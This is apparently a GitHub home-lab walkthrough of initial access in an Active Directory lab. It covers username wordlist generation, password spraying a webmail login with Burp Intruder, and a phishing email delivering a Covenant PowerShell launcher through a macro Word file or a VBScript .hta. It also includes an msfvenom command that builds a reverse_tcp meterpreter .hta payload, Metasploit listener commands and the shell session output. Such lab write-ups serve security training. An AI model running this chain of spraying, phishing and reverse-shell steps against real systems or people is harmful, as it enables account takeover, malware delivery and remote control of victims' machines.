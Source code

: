 # 1. Exploring Website Information and Generating Wordlist:

- During the process of enumeration, we discovered the presence of user information.

- We compiled a list of usernames and saved them in a file for further analysis and use.

![image](https://github.com/thesinghsec/Active-Directory--Home-Lab-/assets/126919241/a7f02083-5420-475e-a8c4-6027e43eb40a)

-  Use the ["Namemash"](https://github.com/thesinghsec/Namemash) script to generate usernames by combining the first and last names from our user list and save the output in a text file

```python
└─$ ./namemash.py web-users > userlist
jonathontaylor
taylorjonathon
jonathon.taylor
taylor.jonathon
taylorj
----snip------
tjonathon
j.taylor
t.jonathon
jonathon
```

> ## Machines required: WorkStation-01, UbuntuMail, and Kali machine.

- Navigate to the mail server in the browser using the UbuntuMail IP.

![image](https://github.com/thesinghsec/Active-Directory--Home-Lab-/assets/126919241/e559bee0-0178-41e2-936f-b955c1fe3980)

- Open Burp Suite and intercept the request using a proxy

![image](https://github.com/thesinghsec/Active-Directory--Home-Lab-/assets/126919241/997b35ea-80be-42bb-963b-2e9286afe884)

- In Burp Suite's Intruder tool, initiate the attack by selecting the request and specifying the user and pass arguments for fuzzing. Add the generated username list to the user section and include common passwords like "summer2021!" and "fall2020!" as payload options. Configure the attack method as "Cluster Bomb" and launch the attack to test different combinations.

![image](https://github.com/thesinghsec/Active-Directory--Home-Lab-/assets/126919241/7ca45570-25e8-4edd-9065-e5d325ec801d)

- Accomplished the task by successfully identifying the username "a.tarolli" along with the corresponding password "Summer2021!"
- Log in to the mail server using the a.tarolli creds.

![image](https://github.com/thesinghsec/Active-Directory--Home-Lab-/assets/126919241/b7de7ded-114c-49df-abe6-10bfd5874ba7)

## Phishing Email

- Setup listener on Covenant and generate a PowerShell launcher. 
- Host a file named rev.ps1 and copy the highlighted encoded luncher.

![image](https://github.com/thesinghsec/Active-Directory--Home-Lab-/assets/126919241/16328e6b-d1d9-49d5-adba-e2bfc14ca093)

As we don't have MS Word installed on our system so we will use [Nishang's Out-File.ps1 script](https://github.com/samratashok/nishang/blob/master/Client/Out-Word.ps1) to create a Word document and autorun macro with provided payload.

![image](https://github.com/thesinghsec/Active-Directory--Home-Lab-/assets/126919241/d093c16b-ce98-4247-a214-aba4c50549cb)

> Setup smbserver using cmd `smbserver.py Share . -smb2support`. To make the file build successfully.

Host the file through Covenant Listener to transfer it.

![image](https://github.com/thesinghsec/Active-Directory--Home-Lab-/assets/126919241/e0c7a196-f493-4a1e-af32-a8fe1d9d1253)

Now, we will send the email with the phishing file linked on the link. Click send.

![image](https://github.com/thesinghsec/Active-Directory--Home-Lab-/assets/126919241/d9e34e38-f3a1-46bb-bdbf-4296873d9b46)

When on the Workstation-01 we will download the file and open it with enable editing. There is nothing happening on the Workstation-01, but on our Kali machine Covenant, we have an active Grunt activated which means now we shell.

![image](https://github.com/thesinghsec/Active-Directory--Home-Lab-/assets/126919241/2699574a-439c-4915-8985-660e1bdf00b5)

> ## Alternate

If in case we don't have MS Word installed in our system we can utilize the `.hta` file to get a shell on Covenant. For this, we need the code:

```vb
<script language="VBScript">

  Function DoStuff()

               Dim wsh

               Set wsh = CreateObject("Wscript.Shell")

                wsh.run "<powershell command>"

               Set wsh = Nothing

  End Function

  DoStuff

  self.close

</script>
```

Now, follow the same steps as above, edit the link in the phishing email and setup listener with the host `.hta` file

When the user opens the file, we will find the grunts active.

![image](https://github.com/thesinghsec/Active-Directory--Home-Lab-/assets/126919241/5b9a1ce5-9ac3-4297-8fb2-215c06b18e1f)

## We can achieve the same using METASPLOIT:

First, we must create a `.hta` file using `msfvenom`.

```bash
└─$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=xxx.xxx.xxx.186 LPORT=8080 -f hta-psh -o file.hta
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of hta-psh file: 7912 bytes
Saved as: file.hta
```
Now, open Metasploit and setup the listener using cmds:

```bash
msf6 > use exploit/multi/handler
(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
(multi/handler) > set lport 8888
(multi/handler) > set lhost eth0
(multi/handler) > run
```

Run the generated `.hta` file to the victim's workstation-01.
After running the file we get meterpreter shell back to our machine.

```bash
[*] Sending stage (200774 bytes) to 192.xxx.xxx.xxx.
[*] Meterpreter session 1 opened (192.xx.xxx.xxx:8080 -> 192.xxx.xxx.xxx.:50324) at 2023-07-23 19:25:35 +0100
sessions
meterpreter > getuid
Server username: mayorsec\s.chisholm
meterpreter > 
```
